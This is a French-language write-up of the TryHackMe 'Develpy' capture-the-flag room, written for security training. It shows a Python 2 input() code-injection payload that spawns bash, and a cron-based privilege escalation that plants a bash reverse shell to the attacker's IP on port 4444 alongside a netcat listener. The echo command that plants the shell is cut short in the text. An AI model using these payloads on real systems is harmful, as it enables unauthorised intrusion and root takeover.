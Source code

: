 # Develpy-Write-up
Write-up Room Develpy Tryhackme


Cliquez [ici](https://tryhackme.com/room/bsidesgtdevelpy) pour accéder au room.

# Première étape : Identifier la cible et ses vulnérabilités.

On commence par un scan de port avec nmap.

```bash

nmap -sS -A -Pn [IP]
```


![](img/Develpy_scan.png?raw=true) 

On voit q'au niveau du port 10000 il y a un petit script python qui tourne.
On se connecte au serveur sur ce port pour voir ce que ça donne.


```bash

nc [IP] 10000
```
![](img/Develpy_nc0.png?raw=true)

![](img/Develpy_nc0-1.png?raw=true)

>Ce script est écrit en python mais dans quelle version de python?
>On voit aussi que le module input est utilisé.


**NameError: name 'a' is not defined

On a l'exception suivante si on entre une lettre.
>Ce qui veut dire que python n'a pas pu identifier la variable ou le module "a" : On a donc pas définit une varibale ou un module de nom de "a"

**Il s'agit d'une vulnérabilité de python2 qui permet d'exécuter des codes sur la machine via python.

# Deuxième étape : exploitation de vulnérabilité

Il y a plusieurs manières d'exploiter cette vulnérabilité.

```python
__import__('os').system('bash')
```
On va envoyer ce code ci-dessus pour exécuter la commande bash sur la machine.
Une fois que ça serra fait on aurra accès à la machine sur l'utilisateur sur lequel est exécuté le script.

![](img/Develpy_nc.png?raw=true)

On est mainténant loggé sur le user king.

```bash
cat user.txt
```
Avec la commande ci-dessus on a le premier flag.


# Troisième étape : Escalade de privilège


![](img/Develpy_nc_id.png?raw=true)

![](img/Develpy_nc_cron.png?raw=true)

Le fichier root.sh est executé à tout moment par le cron en root.
En modifiant son contenu on pourra donc exécuter un script pour se connecter au shell root.
Quand ça serra fait on aurra accès au root.

Démarrons une connexion en écoute(listener) sur notre terminal locale.
```
nc -l -vv -p 4444
```
4444 est le port que j'ai utilisé,vous pouvez le changer.

Supprimer le fichier root.sh.

Executer la commande ci-dessous pour établir la connection.

```bash
echo "bash -i >& /dev/tcp/[Your IP]/4444 0>&1" >

```

Après ça,une fois que le script serras réexécuter par le cron on aurra accès au root.

![](img/Develpy_nc_root.png?raw=true)

>Avec un cat /root/root.txt on a le flag
